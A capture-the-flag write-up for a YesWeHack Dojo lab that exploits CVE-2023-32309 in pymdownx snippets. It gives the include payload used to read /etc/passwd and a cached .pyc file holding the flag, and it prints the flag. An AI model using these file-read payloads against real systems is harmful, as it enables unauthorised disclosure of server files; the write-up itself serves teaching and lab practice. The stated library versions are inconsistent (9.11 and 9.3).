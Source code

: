 <p align="justify">This Write Up depicts vulnerabilities identified & exploited on <a href="https://dojo-yeswehack.com/challenge-of-the-month/blackhat-2025">BlackHat 2025 - hide & seek lab</a> on YWH Dojo challenge of the month, which led to information (flag) disclosure.It includes vulnerabilities explanations and a POC, namely methods used to retrieve the flag.</p>
<p align="justify">The application deployed lies on a python backend taking a user input and using pymdownx & markdown python lib to render it in a friendly interface replicating iphone messages. Below is a schema of the application folder based on source code:</p>

````txt
        /tmp
        ├── templates
        │   └── index.html
        ├── lib
        │   └── hide.py
        └── app.py
````
<p align="justify">As a matter of fact, the version details of Python & libs used (if available) in this application are :</p>

<div align="center">

| Packages | Version |
|:---------:|:---------:|
| Python    | 3.12.10 |
| pymdownx-extensions  | 9.11 |

</div>

## Source files analysis
<p align="justify"> Looking at source files, it seems the flag is dynamically stored in hide.py file which embeds various functions used by main python script & in which flag value is replaced dynamically with python format syntax, as depicted below :</p>

````python
with open('lib/hide.py', 'w') as f:
   f.write('''
 msg = "Keep looking, there was nothing in the "
 def selfDestruct():
   from os import remove
   remove("/tmp/lib/hide.py")   

 def notfound():
 from random import choice
 return choice([
   "...”
 ])

 def validate(value):
 return "{flag}" in value

 ***
 '''.format(flag=flag).strip())
````

The file hide.py contains 3 interesting functions used in main script : 

- selfDestruct function  : this function deletes hide.py filed dynamically generated at user post request 
- validate(value) : this function is used to validate the challenge and return true if the message given in input contains the flag.
- notFound() : this function is used to choose random failure message among fail messages list

<p align="justify">Now, looking at the main script, it’s interesting to understand how those functions are called.</p>
<p align="justify">First of all it seems that the file containing flag, namely hide.py, is removed from the server disk calling function hide.selfDestruct. Hence, even if arbitrary file read is exploitable, leaking hide.py content to get the flag will be impossible.</p>
<p align="justify">About the attack vector, the only way to process the exploit is by submitting a payload, which is then passed to markdown.markdown() function and rendered in the challenge page. To solve the challenge, the payload must contain the flag and be validated by the validate(msg) function imported from hide.py . markdown.mardown() function is used here to transform markdown content into html content and this function is combined with  pymdownx extension snippets used to insert markdown or html into another markdown file. </p> 
<p align="justify">Below is a snippet of the main script: </p>

````python
 def main():
   # Remove the flag - lets see if you can find me now!
   flag = ""
   hide.selfDestruct()


   payload = unquote("--8%22%2Ftmp%2Flib%2Fhide.py%22%20")


   msg = markdown.markdown(
       payload,
       extensions=['pymdownx.snippets'],
       extension_configs={
           'pymdownx.snippets': {
               'encoding': 'latin1'
           },
           'base_path': './templates',
           'check_paths': True
       }
   )
   resp = "You found the flag! &#x1F6A9;" if hide.validate(msg) else hide.notfound()

   print( template.render(msg=msg, msg_resp=resp) )
````

## CVE-2023-32309 :  arbitrary file read in pymdownx extension
<p align="justify"> The source code is vulnerable to arbitrary file read. The vulnerability comes from a CVE released in 2023 <a href="https://nvd.nist.gov/vuln/detail/CVE-2023-32309">(CVE-2023-32309)</a>. In the affected versions (prior to 10.0) of pymdownx extensions, a file read is possible using include syntax. The version of the application used here (9.3) is vulnerable.</p>
<p align="justify">The vulnerability can be tested easily in a python interpreter. Using the exact syntax of application code, /etc/passwd content can be leaked using include payload of CVE Proof of concept:</p>

<img src="screenshots/S1.png">

<p align="justify">Which can be reproduced on challenge server: </p>

<img src="screenshots/S2.png">

## Flag Read
<p align="justify"> To extract the flag from source files leveraging the vulnerability depicted before, hide.py can’t be displayed because at this step the file is no longer on the disk. Indeed as explained previously, the file had been removed before the payload was processed by the server.</p>

<p align="justify">Nonetheless, when python runs code, function definitions and variables declared are actually compiled and stored in a .pyc file (python bytes cache file) available under /tmp/lib/filename.cpython-version.pyc. It explains why functions defined in hide.py remains available while the file has been deleted.</p>

<p align="justify"> Below is the schema of the folder : </p>

````txt
                /tmp
                ├── templates
                │   └── index.html
                ├── lib
                │   ├── hide.py
                │   └── __pycache__
                │       └── hide.cpython-312.pyc
                └── app.py              
````

<p align="justify">Finally using the following payload, it was possible to disclose flag (according version of python using here and the name of the file) :</p>

````bash
--8<-- "/tmp/lib/__pycache__/hide.cpython-312.pyc"
````
<img src="screenshots/S3.png">

Flag : FLAG{A_B1t_0f_F0r3nsic5_T0_F1nd_M3}





